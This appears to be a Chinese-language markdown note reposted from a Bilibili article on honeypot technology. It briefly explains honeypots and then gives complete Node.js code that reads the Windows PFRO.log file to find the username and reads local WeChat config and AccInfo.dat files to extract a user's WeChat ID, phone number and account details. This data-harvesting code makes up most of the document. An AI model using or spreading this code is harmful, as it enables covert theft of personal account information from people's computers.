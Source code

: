 ```yaml
---
date: 2023-05-08 09:06
updated: 2023-05-08 09:12
---
```

# 蜜罐技术

首先，我们先讲一下蜜罐的概念，你可以简单理解较为蜜罐就是一个陷阱，故意暴露一些我们人为设计好的漏洞，让攻击者自投罗网。



## 一、蜜罐介绍
蜜罐是对攻击者的欺骗技术，用以监视、检测、分析和溯源攻击行为，其没有业务上的用途，所有流入/流出蜜罐的流量都预示着扫描或者攻击行为，因此可以比较好的聚焦于攻击流量。

蜜罐可以实现对攻击者的主动诱捕，能够详细地记录攻击者攻击过程中的许多痕迹，可以收集到大量有价值的数据，如病毒或蠕虫的源码、黑客的操作等，从而便于提供丰富的溯源数据。另外蜜罐也可以消耗攻击者的时间，基于JSONP等方式来获取攻击者的画像。

但是蜜罐存在安全隐患，如果没有做好隔离，可能成为新的攻击源。

## 二、蜜罐技术获取手机号、微信号、地址

1.读取 PFRO日志文件（这个文件是存放ISA监控日志的信息）

![](./images/image-2023-01-25_22-33-46-528-04-蜜罐技术.png)


通过这个文件可以读取系统的用户名 


Nodejs 代码

```js
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

})
```
2.通过用户名读取wxid

```ts
//获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}
```
3.最后通过微信ID 读取你的微信信息（手机号，微信号，等）

## 完整代码

```js
import fs from 'fs';
//获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}
//读取信息
const getData = <T>(path: T, wxId: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/${wxId}/config/AccInfo.dat`).toString('utf-8')
    return data

}
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

}) 作者：小满zs https://www.bilibili.com/read/cv16944860?spm_id_from=333.999.0.0 出处：bilibili
```